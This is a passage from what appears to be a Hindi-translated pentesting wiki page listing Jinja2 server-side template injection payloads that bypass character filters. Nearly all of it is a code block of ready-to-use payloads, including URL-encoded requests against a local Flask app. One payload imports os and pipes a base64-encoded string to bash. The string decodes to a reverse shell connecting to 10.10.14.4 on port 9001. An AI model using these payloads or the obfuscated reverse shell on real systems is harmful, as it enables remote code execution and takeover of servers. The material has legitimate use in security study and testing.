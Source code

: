 {% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### फ़िल्टर बायपास

#### सामान्य बायपास

ये बायपास हमें **access** करने की अनुमति देंगे **attributes** के वस्तुओं के **बिना कुछ वर्णों का उपयोग किए**।\
हमने पहले के उदाहरणों में इनमें से कुछ बायपास पहले ही देख लिए हैं, लेकिन आइए उन्हें यहाँ संक्षेप में प्रस्तुत करें:
```bash
# Without quotes, _, [, ]
## Basic ones
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
{% endraw %}




```
* [**यहां अधिक विकल्पों के लिए वापस लौटें ताकि एक वैश्विक वस्तु तक पहुंच सकें**](jinja2-ssti.md#accessing-global-objects)
* [**यहां अधिक विकल्पों के लिए वापस लौटें ताकि वस्तु वर्ग तक पहुंच सकें**](jinja2-ssti.md#recovering-less-than-class-object-greater-than)
* [**यह पढ़ें ताकि वस्तु वर्ग के बिना RCE प्राप्त कर सकें**](jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than)
